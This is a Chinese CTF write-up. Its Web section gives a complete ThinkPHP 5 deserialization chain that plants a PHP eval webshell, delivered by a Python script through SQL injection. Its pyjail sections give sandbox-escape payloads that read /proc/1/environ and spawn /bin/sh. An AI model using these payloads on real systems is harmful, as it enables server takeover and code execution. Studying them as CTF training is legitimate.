




## Web

给了docker，代码逻辑


mad，开局这里不是admin


这个函数有sql注入


找到逻辑



继续



```
$view->arrayToMarkdown(unserialize(base64_decode($goods['data'])))
```


抓包，获取请求数据

从docker中可以看到，flag不在数据库里面，所以我们需要RCE，emm

这里有个反序列化

```
<?php

namespace think\process\pipes;

use think\model\Pivot;

class Pipes
{

}

class Windows extends Pipes
{
    private $files = [];

    function __construct()
    {
        $this->files = [new Pivot()];
    }
}

namespace think\model;
#Relation
use think\db\Query;

abstract class Relation
{
    protected $selfRelation;
    protected $query;

    function __construct()
    {
        $this->selfRelation = false;
        $this->query = new Query();#class Query
    }
}

namespace think\model\relation;
#OneToOne HasOne
use think\model\Relation;

abstract class OneToOne extends Relation
{
    function __construct()
    {
        parent::__construct();
    }

}

class HasOne extends OneToOne
{
    protected $bindAttr = [];

    function __construct()
    {
        parent::__construct();
        $this->bindAttr = ["no", "123"];
    }
}

namespace think\console;
#Output
use think\session\driver\Memcached;

class Output
{
    private $handle = null;
    protected $styles = [];

    function __construct()
    {
        $this->handle = new Memcached();//目的调用其write()
        $this->styles = ['getAttr'];
    }
}

namespace think;
#Model
use think\model\relation\HasOne;
use think\console\Output;
use think\db\Query;

abstract class Model
{
    protected $append = [];
    protected $error;
    public $parent;#修改处
    protected $selfRelation;
    protected $query;
    protected $aaaaa;

    function __construct()
    {
        $this->parent = new Output();#Output对象,目的是调用__call()
        $this->append = ['getError'];
        $this->error = new HasOne();//Relation子类,且有getBindAttr()
        $this->selfRelation = false;//isSelfRelation()
        $this->query = new Query();

    }
}

namespace think\db;
#Query
use think\console\Output;

class Query
{
    protected $model;

    function __construct()
    {
        $this->model = new Output();
    }
}

namespace think\session\driver;
#Memcached
use think\cache\driver\File;

class Memcached
{
    protected $handler = null;

    function __construct()
    {
        $this->handler = new File();//目的调用File->set()
    }
}

namespace think\cache\driver;
#File
class File
{
    protected $options = [];
    protected $tag;

    function __construct()
    {
        $this->options = [
            'expire' => 0,
            'cache_subdir' => false,
            'prefix' => '',
            'path' => 'php://filter/write=string.rot13/resource=./<?cuc cucvasb();riny($_TRG[pzq]);?>',
            'data_compress' => false,
        ];
        $this->tag = true;
    }
}

namespace think\model;

use think\Model;

class Pivot extends Model
{


}


use think\process\pipes\Windows;

echo base64_encode(serialize([new Windows()]));
```

直接网上找条链子就打通了



需要数组形式的

然后构造一个sql语句


exp:

```
import requests
url = 'http://192.168.153.130:36000/public/index.php/index/admin/do_edit.html'

cookies = {
    'PHPSESSID': 'l98e9omcje3gljtum9ith1ffn6'
}

exp = "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"

data = {
    'id': '1',
    'name': '1',
    'price': '1.00',
    'on_sale_time': '2023-12-16T21:20',
    'image': '$sql',
    f"data`='{exp}'/**/WHERE/**/`id`/**/=/**/1;#": '123',
    'data': '1'
}

r = requests.post(url, cookies=cookies, data=data)

print(r.text)
```

最后访问页面，触发反序列化


本地打一下，看见打上去了

直接RCE




## MISC

### Pyjail ! It’s myFILTER !!!

源码：

```
# Python Version:python3.10
# Source Code:

import code, os, subprocess
import pty
def blacklist_fun_callback(*args):
    print("Player! It's already banned!")

pty.spawn = blacklist_fun_callback
os.system = blacklist_fun_callback
os.popen = blacklist_fun_callback
subprocess.Popen = blacklist_fun_callback
subprocess.call = blacklist_fun_callback
code.interact = blacklist_fun_callback
code.compile_command = blacklist_fun_callback

vars = blacklist_fun_callback
attr = blacklist_fun_callback
dir = blacklist_fun_callback
getattr = blacklist_fun_callback
exec = blacklist_fun_callback
__import__ = blacklist_fun_callback
compile = blacklist_fun_callback
breakpoint = blacklist_fun_callback

del os, subprocess, code, pty, blacklist_fun_callback
input_code = input("Can u input your code to escape > ")

blacklist_words = [
    "subprocess",
    "os",
    "code",
    "interact",
    "pty",
    "pdb",
    "platform",
    "importlib",
    "timeit",
    "imp", 
    "commands",
    "popen",
    "load_module",
    "spawn",
    "system",
    "/bin/sh",
    "/bin/bash",
    "flag",
    "eval",
    "exec",
    "compile",
    "input",
    "vars",
    "attr",
    "dir",
    "getattr"
    "__import__",
    "__builtins__",
    "__getattribute__",
    "__class__",
    "__base__",
    "__subclasses__",
    "__getitem__",
    "__self__",
    "__globals__",
    "__init__",
    "__name__",
    "__dict__",
    "._module",
    "builtins",
    "breakpoint",
    "import",
]

def my_filter(input_code):
    for x in blacklist_words:
        if x in input_code:
            return False
    return True

while '{' in input_code and '}' in input_code and input_code.isascii() and my_filter(input_code) and "eval" not in input_code and len(input_code) < 65:
    input_code = eval(f"f'{input_code}'")
else:
    print("Player! Please obey the filter rules which I set!")

```

直接打

```
{"a"}' + print(open('/proc/1/environ').read()) #
```

### Pyjail ! It’s myRevenge !!!

题目源码

第一步清除 blacklist，然后用 input 读入继续打

| `1 2 3 ` | `{[list(globals().values())[-2].clear(),"{i""nput()}"][1]} {[globals()["__builtins__"].exec("import os"),"{i""nput()}"][1]} {[os.spawnv(0, "/bin/sh", ["sh"]),"{i""nput()}"][1]} ` |
| -------- | ------------------------------------------------------------ |
|          |                                                              |

### Pyjail ! It’s myAST !!!!

题目源码，远程环境为 python 3.11

python 3.10 开始引入了 `match` 关键字，可以用 `match` 获取对象属性，用 unicode `﹍` 绕过下划线检测，用 `bytes` 转字符串和 `len` 构造数字绕过 ast 中的禁止常量，使用海象运算符绕过赋值，减小 payload 长度，虽然 1800 够用了 （


### 一.SpeedUp

在这个网站直接记载了2的27次方的阶乘的每一位数字之和

A244060 - OEIS


对4495662081取个sha256即可 

flag{bbdee5c548fddfc76617c562952a3a3b03d423985c095521a8661d248fad3797}


### 石头剪刀布


他是贝叶斯预测，然后手搓序列，每次贝叶斯的预测的应该差不多，可以看最后一次结果，然后序列中改成赢过AI的出法加入序列，按照这个规律改就可以把分数逐步上升，最后达到260分拿到flag

```python
from pwn import *
import re
import time

# 0 - 石头，1 - 剪刀，2 - 布
p = remote('8.147.133.72',25458)

opponent_choice = [1,1,1,1,1,2,2,0,0,1,2,0,1,2,0,2,0,0,0,1,1,1,1,1,2,1,2,2,2,0,2,0,0,0,1,1,1,1,2,2,2,0,0,1,2,0,1,2,0,2,0,2,1,0,2,1,0,0,0,1,1,1,2,2,0,0,1,2,1,1,2,2,2,0,1,2,0,1,2,0,2,0,1,0,2,1,0,0]

p.recv()

for i in range(len(opponent_choice)):
    d = p.recv()
    p.sendline(str(opponent_choice[i]).encode())
    r = p.recv()
    score = re.findall(r'你的分数： (.*?)\n',d.decode())
    if score != []:
        print(score[0]+'/260')
    time.sleep(0.05)

d = p.recv()
print(d.decode())
p.sendline(b'2')
r = p.recv()
print(r.decode())
score = re.findall(r'你的分数： (.*?)\n',d.decode())
if score != []:
    print(score[0]+'/260')

print(str(len(opponent_choice))+'/100')
p.interactive()
```
